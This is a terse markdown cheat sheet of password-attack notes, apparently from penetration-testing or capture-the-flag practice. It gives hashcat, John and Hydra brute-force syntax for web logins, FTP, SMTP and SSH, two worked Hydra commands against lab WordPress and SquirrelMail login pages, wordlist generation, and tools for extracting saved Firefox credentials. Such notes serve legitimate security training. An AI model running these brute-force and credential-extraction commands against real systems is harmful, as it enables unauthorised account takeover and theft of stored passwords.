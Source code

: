 

## Basics
- cracking: from hash
- guessing: from dictionary (loud)
- dump = leaks of passwords/hash
- Combine
  - cat file1 file2 > file3
  - sort fil3 | uniq u > cleaned

## Hashcat
- Identify hash
  - hashid
  - hashidentifier

- wordlist
  - hashcat target /path/to/word/list
- hashcat
  - a 0 = dictionary attack
    - dictionary = list | brute-force = guessing
  - -m 0 = type of hash
  - -a 3 = brute force method
  - ?d = use digit for generating
  - TOTAL_CHARACTERS = generate list

- [Crackstation](https://crackstation.net/)
  
## John
- Using rules
  - john --wordlist=existing_list --rules=pick_one --stdout
  - --format=ENCRYPTION
  - adding rule
    - conf file: [rule_name] Az"[0-9]" ^[!@#$]

## Hydra
- hydra -l username -P wordlist.txt server service
- hydra -l username -P wordlist.txt service://server (hydra -l -u $target smb -V -f)
- -d = debug
- -v = verbose
- -V = show attempts
  - vV = more info
- -f = terminate if found
- -s = port to connect
- -t = number threadlos
- hydra MODULE -U


- web
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* **"/[PATH_TO_LOGIN]:[body_request]:[F|S]=[ERROR_MESSAGE]"** -vV -f
    - F:failing strings
    - S:sucessfull strings
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* **"/[request]:username=^USER^&password=^PASS^:F=incorrect"** -v
  
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* '/login.aspx:BODY_PARAMETER_WITH_PASSWORD:S=logout.php' -f
  
    - Request: *HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy*
    - IP/URL http-get-form | http-post-form "/login-get/index.php:[BODY_CONTENT]&username=^USER^&PASSWORD=^PASS:S=logout.php" -f
    - for post: whole POST BODY
      - S= [message_for_success]
      - F= [message_for_failed]
      - -V Verbose
      - -f = stop attack after finding
      - -L = List of usernames
      - -s=302 ==> sucessfull redirect

```
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt.gz $target http-post-form\n'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.131%2Fwp-admin%2F&testcookie=1:ERROR: The password you entered for the username elliot is incorrect. Lost your password?'  -f

hydra -l milesdyson -P log1.txt $target http-post-form '/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect.'\n

```

- FTP
  - hydra -l [USERNAME] -P password.lst ftp://IP

- SMPT
  - -l email@address.com -P [Password_List] smtp://IP -v

- SSH
  - -L [USER_LIST] -P [PASS_LIST] ssh://IP -v

## Brutespray
- Toll that uses result from nmap scan .xml
- [Information here](https://github.com/x90skysn3k/brutespray)

## Creating Wordlists
- cewl URL
  - -w = output
  - -d 5 = depth
  - -m 5 = minimum
  
- username_gennerator.py

- crunch
  - combination of characters
  - crunch 2 2 123456abcd -o output
  - -t startpassword[symbol1][symbol2]
    - @ lower case
    - , upercase
    - % numeric
    - ^ special

- cupp
  - based on information of the target, birthdate, pet, etc
  - https://github.com/Mebus/cupp.git

## Zip files
- John
- fcrackzip
  - -D = dictionary
  - -u = only correct password

## Mozillas files
- Files
  - .db
  - logins.json
  - cookies.sqlite
- https://github.com/lclevy/firepwd.git
- https://github.com/unode/firefox_decrypt.git
- msfconsole:
  -  use post/multi/gather/firefox_creds = extract files